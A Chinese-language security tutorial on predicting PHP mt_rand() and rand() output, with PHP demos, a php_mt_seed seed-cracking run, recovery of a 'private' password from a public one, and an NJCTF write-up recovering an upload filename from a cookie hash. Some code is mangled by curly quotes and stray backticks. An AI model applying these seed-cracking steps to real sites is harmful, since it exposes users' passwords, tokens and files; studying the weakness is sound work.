



# php mt_rand函数的安全问题探讨

## mt_rand() 函数的安全性问题

```
php -r 'echo getrandmax()."\n".mt_getrandmax()."\n"; echo (pow(2,31)-1)."\n";' 
```


在我的 linux 64 位系统中,rand() 和 mt_rand() 产生的最大随机数都是2147483647,
正好是 2^31-1 , 也就是说随机播种的种子也是在这个范围中,0 – 2147483647 的这个范围是允许我们进行爆破的. 但是用 php爆破比较慢

这里放一个爆破poc的d地址

php_mt_seed爆破程序 https://github.com/ianxtianxt/php-mt_rand

下面演示一下它的用法:



在例子中,我没有自己播种种子,而是让php自动去播种一个种子并产生一个随机数,然后用 php_mt_seed 这个工具把产生的随机数作为参数,去爆破种子,最后的得到了四个结果.
经过验证,四个结果都是对的.都会产生这样的一个随机数.

但是还有一个疑问,就是 php manual 中说,自动播种种子是指:在每次调用 mt_rand()函数之前都播种一次种子呢,还是多次调用 mt_rand()函数之前,只播种一次种子呢,这对于我们能否猜到产生的随机数序列至关重要.

看下面的测试:



在测试中,在没有进行手工播种的情况下产生两个连续的随机数,然后去爆破种子,得到了四个可能种子,经过测试发现其中一个种子产生的随机数序列和预期的相同,所以可以猜想在php中产生一系列的随机数时,只进行了一次播种!

那请考虑下面代码的安全性:

```
<?php
function wp_generate_password($length = 12, $special_chars = true) {
  $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
  if ( $special_chars )
  $chars .= '!@#$%^&*()';

$password = ‘’;

for ( $i = 0; $i < $length; $i++ )

$password .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);

return $password;

}

$key = wp_generate_password(16, false);

echo “[*] This is a key for public:”.$key."\n"; `$private = wp_generate_password(10,false);

echo “[*] Create a private key which you don’t know:”.$private."\n";

?>` 
```

我们是否可以根据公开的key,猜到 $private 呢?

运行一次上面的代码:

```
njctf$ php mtRand.php
[*] This is a key for public:uS66FDD9LCR62UV3
[*] Create a private key which you don\'t know:t3JSUHzYAv 
```

下面演示破解过程,首先获得public key在每一位在字符串中的位置:

```
<?php
$str = "uS66FDD9LCR62UV3";
$randStr = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"; `for($i=0;$i<strlen($str);$i++){

$pos = strpos($randStr,$str[$i]);

echo $pos." “.$pos.” "."0 “.(strlen($randStr)-1).” ";

//整理成方便 php_mt_seed 测试的格式

//php_mt_seed VALUE_OR_MATCH_MIN [MATCH_MAX [RANGE_MIN RANGE_MAX]]

}

echo “\n”;

?>` 
```

然后用 php_mt_seed 进行破解,这个需要的时间还是挺长的,几分钟左右.


已经成功的破解了一个seed,下面看这个seed对不对:

```
<?php
function wp_generate_password($length = 12, $special_chars = true) {
  $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
  if ( $special_chars )
  $chars .= '!@#$%^&*()'; `$password = ‘’;

for ( $i = 0; $i < $length; $i++ )

$password .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);

return $password;

}

mt_srand(4030923041); //手工添加了这个种子

$key = wp_generate_password(16, false);

echo “[*] This is a key for public:".$key."\n";

$private = wp_generate_password(10,false);

echo "[*] Create a private key which you don’t know:”.$private."\n";

?>` 
```

跟刚才的结果一模一样 :


这样就说明了,我们只需要拿到public key,就可以预测到private key 的值了.

但是在有的一些环境中，public key可能在private key之后产生，但是知道private key的位数
怎么预测private key呢？
强大的php_mt_seed_4.0,支持一些统配的写法，把未知的都写成参数 0 0 0 0 就可以了php_mt_seed详细的使用说明。它就会跳过前面的mt_rand()的一些输出，直接匹配后面的：

下面测试我们获得了private key，来猜测public key的情况。

```
<?php
 # mtRand.php
$str = "t3JSUHzYAv";
$randStr = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"; `for($i=0;$i<strlen($str);$i++){

$pos = strpos($randStr,$str[$i]);

echo $pos." “.$pos.” "."0 “.(strlen($randStr)-1).” ";

//整理成方便 php_mt_seed 测试的格式

//php_mt_seed VALUE_OR_MATCH_MIN [MATCH_MAX [RANGE_MIN RANGE_MAX]]

}

echo “\n”;

?>` 
```

下面就开始破解：

```
➜  Desktop echo  $(python -c "print '0 '*64") $(php mtRand.php) | xargs   ~/script/php_mt_seed-4.0/php_mt_seed
Pattern: SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62
Version: 3.0.7 to 5.2.0
Found 0, trying 0xfc000000 - 0xffffffff, speed 65.2 Mseeds/s
Version: 5.2.1+
Found 0, trying 0xf0000000 - 0xf1ffffff, speed 5.5 Mseeds/s
seed = 0xf0430121 = 4030923041 (PHP 5.2.1 to 7.0.x; HHVM)
Found 1, trying 0xfe000000 - 0xffffffff, speed 5.5 Mseeds/s
Found 1 
```

可以看到破解得到的seed和之前的一样。

接下来看一个 njctf中的一个例子,只贴部分关键代码:

```
<?php
function random_str($length = "32")
{
    $set = array("a", "A", "b", "B", "c", "C", "d", "D", "e", "E", "f", "F",
        "g", "G", "h", "H", "i", "I", "j", "J", "k", "K", "l", "L",
        "m", "M", "n", "N", "o", "O", "p", "P", "q", "Q", "r", "R",
        "s", "S", "t", "T", "u", "U", "v", "V", "w", "W", "x", "X",
        "y", "Y", "z", "Z", "1", "2", "3", "4", "5", "6", "7", "8", "9");
    $str = '';
    for ($i = 1; $i <= $length; ++$i) {
        $ch = mt_rand(0, count($set) - 1);
        $str .= $set[$ch];
    }
    return $str;
}
session_start();

$seed = rand(0,999999999);

mt_srand($seed);

$ss = mt_rand();

$hash = md5(session_id() . $ss);

setcookie(‘SESSI0N’, $hash, time() + 3600); `$filename = ‘./uP1O4Ds/’ . random_str() . ‘_’ . $_FILES[‘file-upload-field’][‘name’];

?>` 
```

我们的目标是猜测出filename.
这里 $seed 是 rand(0,999999999)生成的,我们不知道,但是$hash = md5(session_id() . $ss);我们却是知道的,在 cookie的SESSION中,当把cookie中的 PHPSESSID 设为空的时候,session_id()就也是空了,通过结hash,就可以获得 mt_rand() 产生的第一个随机数,然后用 php_mt_seed这工工具爆破种子,就可以直接算出文件名了.

rand() 函数的安全性问题
rand() 函数在产生随机数的时候没有调用 srand(),则产生的随机数是有规律可询的.
具体的说明请看这里http://www.sjoerdlangkemper.nl/2016/02/11/cracking-php-rand/
产生的随机数可以用下面这个公式预测 : state[i] = state[i-3] + state[i-31] (一般预测值可能比实际值要差1)
写下面测试代码,验证一下:

```
<?php
$randStr = array();
for($i=0;$i<50;$i++){  //先产生 32个随机数
    $randStr[$i]=rand(0,30);
    if($i>=31) {
        echo  "$randStr[$i]=(".$randStr[$i-31]."+".$randStr[$i-3].") mod 31"."\n";
    }
}
?> 
```

看一下结果:



发现预测的值,基本都是对的,这样就可以根据之前生成的随机数,预测之后产生的随机数.